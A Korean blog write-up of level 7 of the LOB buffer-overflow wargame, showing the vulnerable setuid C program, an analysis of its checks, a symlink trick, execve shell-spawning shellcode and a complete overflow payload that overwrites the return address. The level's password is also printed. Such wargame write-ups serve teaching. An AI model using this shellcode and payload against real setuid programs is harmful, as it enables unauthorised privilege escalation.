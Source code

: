 ```yaml
---
title: BOF/ LOB-level7(darkelf)
tags: LOB
---
```


LOB란 The Lord of the BOF의 약자로 Buffer over-flow를 연습해 볼 수 있는 해킹문제이다.    
총 20문제로 구성되어 있으며 각 문제를 격파하여 다음 레벨의 패스워드를 얻는 형식이다.  
문제를 격파하고 다음 레벨의 bash를 획득하였다면 my-pass로 패스워드를 확인할 수 있다.  

 [send me email](mailto:jewel7492@gmail.com) if you have any questions.

<!--more-->

---
### LOB Level 7(darkelf)
**ID : darkelf**  
**PASSWD : kernel crashed**  

```bash
$ bash2
```
풀이 시작 전에 bash2로 꼭 변경  
**bash는 \xff를 \x00(NULL)로 인식하여 제대로 문제를 풀 수 없다.**  

![그림1](/assets/LOB/level7/1.PNG)  
사용자 orge의 권한의 orge파일이 있음을 확인할 수 있다.  
**set-uid가 걸려있으므로 사용자 orge의 권한으로 파일을 실행할 수 있다.**  
**orge파일이 쉘을 실행시키도록 한다면 사용자 orge의 쉘을 획득할 수 있다.**  

<br />
{% highlight C linenos %}  
/*
        The Lord of the BOF : The Fellowship of the BOF
        - orge
        - check argv[0]
*/

#include <stdio.h>
#include <stdlib.h>

extern char **environ;

main(int argc, char *argv[])
{
        char buffer[40];
        int i;

        if(argc < 2){
                printf("argv error\n");
                exit(0);
        }

        // here is changed!
        if(strlen(argv[0]) != 77){
                printf("argv[0] error\n");
                exit(0);
        }

        // egghunter
        for(i=0; environ[i]; i++)
                memset(environ[i], 0, strlen(environ[i]));

        if(argv[1][47] != '\xbf')
        {
                printf("stack is still your friend.\n");
                exit(0);
        }

        // check the length of argument
        if(strlen(argv[1]) > 48){
                printf("argument is too long!\n");
                exit(0);
        }

        strcpy(buffer, argv[1]);
        printf("%s\n", buffer);

        // buffer hunter
        memset(buffer, 0, 40);
}
{% endhighlight %}  
**orge.c**

### 소스분석  
1. argc가 2보다 작다면 "ergv error"을 출력하고 프로그램을 종료한다.  
**argc란? - 파라미터의 개수를 의미한다. 즉 main에 최소 2개이상의 인자를 전달하여야 한다.**  
2. argv[0]의 길이가 77이 아닌경우 "argv[0] error"를 출력하고 프로그램을 종료한다.  
**argv[0]는 파일명이다. 따라서 파일명의 길이가 75가 아닌 경우 문제를 해결할 수 없다.**  
**파일을 실행할 때 사용하는 명령어 ./도 포함하여 77이기 때문에 파일명은 75**  
3. 환경변수를 memset으로 초기화  
**환경변수를 이용한 공격 불가**  
4. argv[1][47]의 값이 \xbf가 아닌경우 "stack is still your friend" 출력 후 프로그램 종료  
**RTL기법 사용 불가 What is RTL? - [LOB(level13)](https://limjunho.github.io/2020/03/14/LOB-level13(darkknight).html)**  
5. argv[1]의 길이가 48보다 큰 경우 "argument is too long!"을 출력 후 프로그램 종료  
**RET뒤에 NOP과 ShellCode를 삽입하는 공격 불가**  
6. main에 전달받은 인자 argv[1]을 buffer에 복사하여 출력(argv[0]은 파일명)  
**strcpy함수는 복사할 데이터의 크기제한이 없기 때문에 argv[1]이 40Byte보다 크다면 buffer-overflow가 발생하는 취약점이 있다.**  
7. memset으로 buffer를 모두 0으로 초기화  

### Solution  
**[LOB(level6)](https://limjunho.github.io/2019/11/03/LOB-level6(wolfman).html)와 같이 argv[1]의 주소를 이용한다.**  
**추가로 소스분석2번의 조건을 회피하기 위해 심벌릭링크를 이용하여 파일명의 길이를 75로 맞춘다.**  

**심벌릭링크?**  
링크를 연결하여 원본 파일을 직접 사용하는 것과 같은 효과를 내는 링크이다. 윈도우의 바로가기와 비슷한 개념  

#### level7에서 사용한 쉘코드  
**\x31\xc0\x50\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x50\x53\x89\xe1\x31\xd2\xb0\x0b\xcd\x80**
이전에 사용하던 41Byte 쉘코드는 buffer의 크기가 작아 사용하기 어렵기 때문에 25Byte 쉘코드를 사용  

**buffer over-flow를 이용하기 위해서는 프로그램 Stack의 구조를 알아야 한다.**  

스택구조|
---|
buffer(40Byte)|
sfp(4Byte)|
ret(4Byte)| 

**SFP(Stack frame pointer) - 이전 함수의 EBP주소를 담고 있다.**  
(EBP - 스택의 가장 바닥을 가리키는 포인터)  
**RET(Return Address) - 함수가 종료시 return될 주소**  

#### 기존 orge.c를 복사하여 argv[1]의 주소를 출력하는 코드를 추가.   
**buffer에 삽입한 쉘코드는 초기화되지만 argv[1]에는 남아있기 때문에 이를 이용**   

{% highlight C linenos %}  
/*
        The Lord of the BOF : The Fellowship of the BOF
        - orge
        - check argv[0]
*/

#include <stdio.h>
#include <stdlib.h>

extern char **environ;

main(int argc, char *argv[])
{
        char buffer[40];
        int i;

        if(argc < 2){
                printf("argv error\n");
                exit(0);
        }

        // here is changed!
        if(strlen(argv[0]) != 77){
                printf("argv[0] error\n");
                exit(0);
        }

        // egghunter
        for(i=0; environ[i]; i++)
                memset(environ[i], 0, strlen(environ[i]));

        if(argv[1][47] != '\xbf')
        {
                printf("stack is still your friend.\n");
                exit(0);
        }

        // check the length of argument
        if(strlen(argv[1]) > 48){
                printf("argument is too long!\n");
                exit(0);
        }

        strcpy(buffer, argv[1]);
        printf("%s\n", buffer);
        printf("%p\n", argv[1]);

        // buffer hunter
        memset(buffer, 0, 40);
}
{% endhighlight %}  
**orge.c를 복사하여 소스 추가 -> printf("%p\n", argv[1]);**  


![그림2](/assets/LOB/level7/2.PNG)  
위의 방법으로 argv[1]의 주소를 획득.  
argv[1]의 주소 -> 0xbffffbb5

### Attack  

argv[1]의 주소와 스택의 구조를 파악하였으므로 공격을 시도할 수 있다.  
orge의 권한으로 set-uid가 걸린 orge파일에 심벌릭 링크를 걸고  
**./심벌릭링크 [ShellCode] + [dummy] + [argv(1)주소]**의 형태로 공격.  
**이 때 ShellCode + dummy값의 길이는 buffer의 길이 + sfp(4byte)만큼 즉 44Byte여야 한다.**
**또한 RET에 덮을 argv[1]의 주소는 리틀 엔디안 방식으로 기입한다.**  

**리틀 엔디안은 최 하위 바이트 부터 저장하는 방식이다.**  
ex) 0xbffffc11을 리틀 엔디안 방식으로 저장하면 11cfffbf가 된다.  
보통 엔디안 방식은 CPU 아키텍쳐에 따라 다르지만 intel x86, x64, AMD 계열은 리틀엔디안, 모토로라 프로세서들은 빅엔디안을 사용한다.  
현재 시스템의 엔디안방식을 확인하고 싶다면 echo -n I | od -to2 | head -n1 | awk'{print $2;}' | cut -c6  
명령으로 나오는 값이 1이라면 리틀 엔디안, 0이라면 빅엔디안이다.  

![그림3](/assets/LOB/level7/3.PNG)  
공격 성공.   

**페이로드**  
```bash
$ ./BBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBB `python -c "print '\x31\xc0\x50\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x50\x53\x89\xe1\x31\xd2\xb0\x0b\xcd\x80' + 'A'*19 + '\xb5\xfb\xff\xbf'"`
```